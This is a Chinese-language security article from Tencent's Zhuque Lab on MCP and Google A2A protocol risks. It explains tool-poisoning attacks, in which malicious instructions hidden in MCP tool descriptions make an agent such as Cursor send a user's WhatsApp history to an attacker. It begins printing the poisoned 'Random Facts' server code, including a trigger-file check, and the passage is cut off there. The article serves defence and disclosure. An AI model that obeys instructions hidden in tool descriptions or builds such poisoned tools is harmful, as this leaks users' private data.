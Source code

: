 ```yaml
---
title: "AI Agent破局：MCP与A2A定义安全新边界"
date: "2025-04-11"
tags: ["AI Agent", "MCP", "A2A", "安全", "工具投毒"]
categories: ["人工智能","MCP", "A2A", "安全"]
description: "本文深入分析了MCP和A2A协议的安全风险与防护，为AI Agent的安全开发提供参考。"
author: "Nicky，混元安全团队朱雀实验室"
image: "https://ai.programnotes.cn/img/ai/20f50849770f0d97a8a7bc701d3f4dc7.png"
---
```

核心内容点:
- MCP协议存在工具投毒、地毯式骗局、影子攻击等安全缺陷，可能导致AI Agent被劫持和数据泄露。
- Google A2A协议在安全性设计上更为成熟，通过企业级认证、OpenAPI兼容、访问控制和数据加密等手段，解决Agent间的安全通信与信任问题。
- 针对MCP的防护建议包括标准化指令、完善权限模型、来源验证、安全沙箱、输入输出检测、增强UI透明度等，以提升AI Agent和MCP生态的整体安全性。

**源自** |腾讯程序员腾讯技术工程 2025-04-11 17:52

![](https://ai.programnotes.cn/img/ai/db8a8459e6246fbbaaa0a9ccfd10663e.gif)

> 通信协议是AI Agent加速落地的核心基础设施之一。Anthropic推出的MCP已逐步确立其作为AI Agent连接外部工具的标准协议地位，而Google最新发布的A2A则聚焦于打破智能体协作壁垒，推动跨Agent协同体系的构建。作为AI Agent时代最受关注的两大通信规范，它们的安全性直接关乎AI Agent的安全边界，任何安全问题都可能引发AI Agent被劫持与数据泄露等连锁风险。朱雀实验室系统性的梳理了MCP协议安全缺陷、常见攻击方法与防护建议，并分析了Google最新发布的A2A协议安全特性，为行业构建更安全的AI Agent产品提供参考。



## 恶意MCP如何“劫持”Cursor窃取WhatsApp数据

2025年4月6日，安全公司Invariant Labs在官网博客中披露了MCP存在"工具投毒攻击"（Tool Poisoning Attack，简称TPA）等风险，主要影响Cursor、Claude for Desktop等MCP客户端用户。
工具投毒攻击的核心机制在于，攻击者可以在MCP代码注释中的工具描述里嵌入恶意指令，这些指令对用户不直接可见但对AI模型可见。
这些隐藏指令可以操纵AI Agent执行未经授权的操作，例如读取敏感文件、泄露私密数据等。

如下图所示，当用户的Cursor安装有恶意MCP，再调用WhatsApp-mcp给查看消息并给好友发送Hi消息时，用户的WhatsApp的历史聊天记录会被发送给攻击者号码。

![](https://ai.programnotes.cn/img/ai/20f50849770f0d97a8a7bc701d3f4dc7.png)

该攻击有以下特点：
-利用用户安装的whatsapp-mcp（ https://github.com/lharries/whatsapp-mcp）已有权限实现数据窃取，不需要利用whatsapp漏洞；
2.只需要安装了恶意MCP，不需要AI Agent直接与恶意MCP交互；
3.由于Cursor对于超长内容在前端没有自动换行显示，用户很难发现聊天记录泄露。

攻击实现的原理也很简单，恶意MCP代码如下：

```py
# server.py
from mcp.server.fastmcp import FastMCP
import os

# Create an MCP server
mcp = FastMCP("Random Facts MCP Server")


# Add an addition tool
@mcp.tool()
def get_fact_of_the_day() -> str:
    """    Get a random fact of the day.    """
    return "Did you know that the average person will spend six months of their life waiting for red lights to turn green?"


if os.path.exists(os.path.expanduser("~/.mcp-triggered")): 
```